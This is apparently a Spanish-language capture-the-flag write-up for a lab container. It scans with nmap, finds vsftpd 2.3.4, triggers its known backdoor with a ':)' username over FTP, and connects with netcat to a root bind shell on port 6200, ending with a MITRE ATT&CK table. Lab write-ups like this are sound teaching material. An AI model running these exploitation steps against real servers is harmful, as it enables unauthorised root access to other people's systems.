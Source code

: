 ```yaml
---
tags:
  - Nmap
  - FTP
  - Netcat
---
```


### Escaneo inicial

Iniciamos con un escaneo agresivo de todos los puertos del objetivo:

```bash
─(zikuta㉿zikuta)-[~/Downloads/firsthacking]
└─$ nmap -sV -sS -Pn -p- -sC --min-rate 5000 172.17.0.2 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-08 19:43 CDT
Nmap scan report for 172.17.0.2
Host is up (0.000010s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix
```

Resultado:

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
```

Observamos que el puerto 21 está abierto corriendo **vsftpd 2.3.4**, una versión **conocida por haber sido comprometida con una backdoor en versiones no oficiales**.

### Análisis de la vulnerabilidad

La versión `vsftpd 2.3.4` fue alterada maliciosamente en 2011, añadiendo una **puerta trasera que se activa cuando se intenta iniciar sesión con un nombre de usuario que contiene la cadena `:)`**.

Este comportamiento no es parte del FTP original; fue insertado de forma oculta por un atacante en una versión falsa del servidor FTP. Al recibir este "trigger", el demonio vsftpd abre una **shell bind como root en el puerto 6200**.

### Activación de la backdoor

Nos conectamos al servicio FTP e intentamos autenticarnos usando el trigger `:)`:

```bash
zikuta㉿zikuta)-[~/Downloads/firsthacking]
└─$ ftp 172.17.0.2 21                                   
Connected to 172.17.0.2.
220 (vsFTPd 2.3.4)
Name (172.17.0.2:zikuta): hola:)
331 Please specify the password.
Password: 
```

Aunque el login falla, el trigger `:)` **activa la backdoor**. Hacemos un nuevo escaneo:

```bash
                                                                         
┌──(zikuta㉿zikuta)-[~/Downloads/firsthacking]
└─$ nmap -sV -sS -Pn -p- -sC --min-rate 5000 172.17.0.2 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-08 19:32 CDT
Nmap scan report for 172.17.0.2
Host is up (0.000010s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.3.4
6200/tcp open  lm-x?
| fingerprint-strings: 
|   GenericLines: 
|     sh: 1: 
|     found
|_    found
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port6200-TCP:V=7.95%I=7%D=7/8%Time=686DB89E%P=x86_64-pc-linux-gnu%r(Gen
SF:ericLines,28,"sh:\x201:\x20\r:\x20not\x20found\nsh:\x202:\x20\r:\x20not
SF:\x20found\n");
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix
```

Nuevo resultado:

```bash
6200/tcp open  lm-x?
```

El puerto 6200 ahora aparece abierto: esto confirma que el trigger funcionó y que la shell está activa.

### Explotación – Acceso como root

Nos conectamos directamente con `nc`:

```bash
zikuta㉿zikuta)-[~/Downloads/firsthacking]
└─$ nc 172.17.0.2 6200   
whoami
root
```

### Conclusión

Se ha explotado una **backdoor en la versión maliciosa de vsftpd 2.3.4**, activada mediante el trigger `:)` al intentar iniciar sesión por FTP. Esto nos dio una **shell directa como `root` a través del puerto 6200**, permitiendo control total sobre el sistema.

| Táctica                | Técnica                                                                                                 |
| ---------------------- | ------------------------------------------------------------------------------------------------------- |
| Initial Access         | [T1133 - External Remote Services](https://attack.mitre.org/techniques/T1133/)                          |
| Execution              | [T1059 - Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059/)                 |
| Privilege Escalation   | [T1068 - Exploitation for Privilege Escalation](https://attack.mitre.org/techniques/T1068/)             |
| Command and Control    | [T1071.001 - Application Layer Protocol: Web Protocols](https://attack.mitre.org/techniques/T1071/001/) |
| Persistence (temporal) | Puerto bind shell abierto mientras no se reinicie el servicio                                           |
